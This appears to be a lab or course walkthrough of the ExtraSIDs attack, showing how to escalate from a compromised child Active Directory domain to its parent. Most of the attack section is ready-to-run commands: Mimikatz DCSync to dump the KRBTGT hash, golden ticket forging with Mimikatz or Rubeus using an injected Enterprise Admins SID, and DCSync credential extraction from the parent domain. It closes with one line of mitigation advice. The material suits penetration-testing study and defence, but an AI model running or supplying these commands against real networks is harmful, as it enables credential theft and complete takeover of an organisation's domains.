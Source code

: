 ### **SID History Primer**

The `sidHistory` attribute is used during migration scenarios. When a user is migrated from one domain to another, a new account is created in the second domain. To ensure that the user retains access to resources in the original domain, the original user's SID is added to the `sidHistory` attribute of the new account.

SID history works across domains but can also function within the same domain. Attackers can use tools like `Mimikatz` to inject a Domain Admin’s SID into an account they control. When this manipulated account logs in, all associated SIDs are added to the user's token, granting it unauthorized access.

If the `sidHistory` of a `Domain Admin` is added to a controlled account, the attacker can perform `DCSync`, create a `Golden Ticket`, and persist within the domain.

### **ExtraSIDs Attack - Mimikatz**

The `ExtraSIDs` attack allows for the compromise of a parent domain once a child domain is compromised. Within the same Active Directory (AD) forest, `sidHistory` is respected due to a lack of SID Filtering.

An attacker who has compromised the child domain can modify `sidHistory` to include the SID of the `Enterprise Admins` group in the parent domain. This effectively grants full access to the parent domain without actually being a member of the group.

**Prerequisites for ExtraSIDs Attack:**

- The `KRBTGT` hash for the child domain.
- The SID for the child domain.
- The name of a target user in the child domain (does not need to exist).
- The FQDN of the child domain.
- The SID of the `Enterprise Admins` group in the root domain.

---
### **Gathering Required Data**

#### **Step 1: Obtain the NT Hash for the KRBTGT Account**

The `KRBTGT` account is used to encrypt/sign all Kerberos tickets within a domain. If an attacker obtains its hash, they can generate forged tickets.

Run `Mimikatz` as a Domain Admin in the child domain:
```powershell
mimikatz # lsadump::dcsync /user:LOGISTICS\krbtgt
```

Output will include:
```powershell
Hash NTLM: 9d765b482771505cbe97411065964d5f
```

#### **Step 2: Get the SID for the Child Domain**

Use `PowerView`:
```powershell
Get-DomainSID
```

#### **Step 3: Obtain the SID for the Enterprise Admins Group**
```powershell
Get-DomainGroup -Domain INLANEFREIGHT.LOCAL -Identity "Enterprise Admins" | select distinguishedname, objectsid
```

### **Executing the Attack**

#### **Step 1: Confirm No Access to the Parent Domain**
```powershell
ls \\academy-ea-dc01.inlanefreight.local\c$
```
Expected output:
```powershell
Access is denied.
```

#### **Step 2: Generate a Golden Ticket Using Mimikatz**
```powershell
mimikatz # kerberos::golden /user:hacker /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /krbtgt:9d765b482771505cbe97411065964d5f /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /ptt
```

#### **Step 3: Verify the Ticket is Loaded in Memory**
```powershell
klist
```
Expected output:
```powershell
#0> Client: hacker @ LOGISTICS.INLANEFREIGHT.LOCAL
```

### **Alternative Execution Using Rubeus**

#### **Step 1: Generate a Golden Ticket with Rubeus**
```powershell
Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689 /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt
```

#### **Step 2: Verify Ticket in Memory**
```powershell
klist
```
Expected output:
```powershell
#0> Client: hacker @ LOGISTICS.INLANEFREIGHT.LOCAL
```

---
### **Performing a DCSync Attack on the Parent Domain**

With the Golden Ticket, we can now perform a `DCSync` attack to extract credentials from the parent domain:
```powershell
mimikatz # lsadump::dcsync /user:INLANEFREIGHT\lab_adm
```

If dealing with multiple domains, specify the target domain:
```powershell
mimikatz # lsadump::dcsync /user:INLANEFREIGHT\lab_adm /domain:INLANEFREIGHT.LOCAL
```

---
### **Conclusion**

The `ExtraSIDs` attack is a powerful way to pivot from a compromised child domain to its parent. By leveraging `Mimikatz` or `Rubeus`, attackers can manipulate `sidHistory` and forge `Golden Tickets`, effectively bypassing traditional access controls. Organizations should implement strong monitoring, logging, and periodic password resets for the `KRBTGT` account to mitigate these risks.